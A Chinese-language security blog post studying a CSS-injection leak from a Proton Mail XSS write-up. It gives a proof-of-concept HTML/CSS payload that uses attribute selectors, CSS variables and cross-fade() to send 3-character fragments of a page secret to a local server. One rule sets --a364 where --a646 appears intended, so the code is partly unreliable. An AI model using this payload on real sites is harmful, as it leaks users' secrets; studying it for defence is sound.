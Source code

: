 ```yaml
---
layout: post
title:  css变量+cross-fade leak页面secret
tags: [css,xss]
---
```


在学习Proton Mail 的xss利用时，作者利用css leak页面的一个uuid，本文学习并验证。
文章中利用了几个技术，将uuid按3位字符拆分，利用css selector来设置变量，最后利用cross-fade组合图片，将请求发出来，然后在服务端拼接。
缺点是css文件较大，因为要将所有的3字符组合全部写在css中。
## css变量
利用css selector，设置变量。
需要注意：Note that the selector given to the ruleset defines the scope that the custom property can be used in.
## 利用cross-fade()发送请求
```html
<html>
<body>
<div secret="9364538164"></div>
inject css below
<style></style>
</body>
</html>
```
The original syntax is supported in Safari and supported with the -webkit- prefix in Chrome, Opera, and other blink-based browsers.
## 结果
safari可以复现成功，在chrome下需要使用-webkit-cross-fade才可以。
```html
<html>
<body>
<div secret="9364538164">div here</div>
inject css below
<style>
div[secret*="936"]{
--a936 : url("//127.0.0.1:8000/936.png");
}
div[secret*="364"]{
--a364 : url("//127.0.0.1:8000/364.png")
}
div[secret*="646"]{
--a364 : url("//127.0.0.1:8000/646.png")
}
div{
background-image: cross-fade(cross-fade(var(--a936,none) ,   var(--a364,none) , 50%), var(--a646,none)    , 50%);
background-image: -webkit-cross-fade(-webkit-cross-fade(var(--a936,none) ,   var(--a364,none) , 50%), var(--a646,none)    , 50%)
}
</style>
</body>
</html>
```
![image](https://camo.githubusercontent.com/039c797d20732fef79bfb8c75d0d743c383a0dac1156f21d0b5a80b0abab4c94/68747470733a2f2f6d6d62697a2e717069632e636e2f737a5f6d6d62697a5f706e672f615a4f4951473732466a526963793931514271624a7a786c6b7569616331726d414252547055454770717056655257696375696361793064427973637654746d6e6963527472313369635571356c696365656e6269614b665642536366412f3634303f77785f666d743d706e6726777866726f6d3d352677785f6c617a793d312677785f636f3d31)
网页访问  
![image](https://camo.githubusercontent.com/aee6c2bebb4a87c697952f972686e3aac4ec29947e93c1f5895b303aba919ab4/68747470733a2f2f6d6d62697a2e717069632e636e2f737a5f6d6d62697a5f706e672f615a4f4951473732466a526963793931514271624a7a786c6b7569616331726d4142623961757648386e303656686b52566f37426e3571386f553059706a6271706d61365253705958796b683478674c73794a4c566247412f3634303f77785f666d743d706e6726777866726f6d3d352677785f6c617a793d312677785f636f3d31)
服务端请求
演示时未将url替换为外部url。
https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail/
https://developer.mozilla.org/en-US/docs/Web/CSS/Using_CSS_custom_properties
https://developer.mozilla.org/en-US/docs/Web/CSS/cross-fade

